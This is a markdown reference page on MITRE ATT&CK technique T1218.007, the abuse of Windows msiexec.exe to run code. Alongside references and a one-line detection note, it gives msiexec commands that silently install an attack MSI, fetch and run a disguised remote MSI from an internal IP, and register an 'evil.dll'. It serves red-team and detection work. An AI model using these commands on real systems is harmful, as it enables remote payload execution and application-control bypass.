 <!---------------------------------------------------------------------------------
Copyright: (c) BLS OPS LLC.
This program is free software: you can redistribute it and/or modify
it under the terms of the GNU General Public License as published by
the Free Software Foundation, version 3.
This program is distributed in the hope that it will be useful,
but WITHOUT ANY WARRANTY; without even the implied warranty of
MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE. See the
GNU General Public License for more details.
You should have received a copy of the GNU General Public License
along with this program. If not, see <https://www.gnu.org/licenses/>.
--------------------------------------------------------------------------------->
# T1218.007 - Msiexec
## References
* MITRE ATT&CK[https://attack.mitre.org/techniques/T1218/007](https://attack.mitre.org/techniques/T1218/007)
* LOLBAS Project: Msiexec.exe -<br />[https://lolbas-project.github.io/lolbas/Binaries/Msiexec/](https://lolbas-project.github.io/lolbas/Binaries/Msiexec/)
* Pentest Lab: AppLocker Bypass – MSIEXEC<br />[https://pentestlab.blog/2017/06/16/applocker-bypass-msiexec/](https://pentestlab.blog/2017/06/16/applocker-bypass-msiexec/)
* Philip Tsukerman's Tweet on Msiexec -<br />[https://twitter.com/PhilipTsukerman/status/992021361106268161](https://twitter.com/PhilipTsukerman/status/992021361106268161)

## Overview

`Msiexec.exe`

LOLBINs Tags
* Execute 

* Used by Windows to execute msi files

**Paths**
* `C:\Windows\System32\msiexec.exe`
* `C:\Windows\SysWOW64\msiexec.exe`

**Acknowledgement**
* netbiosX - @netbiosX
* Philip Tsukerman - @PhilipTsukerman

### Detection
* `msiexec.exe` getting files from Internet

### TTP
#### Execute
##### Method 1
Installs the target .MSI file silently.

```
msiexec /quiet /i cmd.msi
```

* Usecase: Execute custom made msi file with attack code
* Privileges required: User
* OS: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10

##### Method 2

Installs the target remote & renamed .MSI file silently.
```
msiexec /q /i http://192.168.100.3/tmp/cmd.png
```

* Usecase:Execute custom made msi file with attack code from remote server
* Privileges required:User
* OS:Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10

##### Method 3
Calls DLLRegisterServer to register the target DLL.

```
msiexec /y "C:\folder\evil.dll"
```

* Usecase: Execute dll files
* Privileges required: User
* OS: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10 


* Example 4: Calls DLLRegisterServer to un-register the target DLL.

		msiexec /z "C:\folder\evil.dll"
	* Usecase: Execute dll files